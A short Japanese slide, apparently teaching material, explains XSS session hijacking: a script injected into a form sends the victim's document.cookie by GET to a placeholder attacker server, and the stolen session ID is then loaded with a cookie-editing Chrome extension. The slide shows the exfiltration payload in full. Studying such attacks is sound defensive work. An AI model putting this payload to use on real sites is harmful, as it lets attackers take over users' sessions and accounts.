

攻撃者
悪意のあるスクリプト
	・フォームに悪意のあるスクリプトを埋め込む
	・セッションIDを攻撃者のサーバにget送信するスクリプト

情報を取得するためのサーバ
	・get送信されたセッションIDを保存する

Edit this cookie
	・cookieの書き換えができるchromeの拡張機能
	・奪取したセッションIDに上書きする

<script>
const url = ‘http:/攻撃者サーバ/index.php?SESSIONID='+document.cookie;
window.open(url, '_blank');
</script>
document.cookieでユーザーのセッションIDを取得後、
リクエストリンクを使用し攻撃者サーバにリダイレクトする。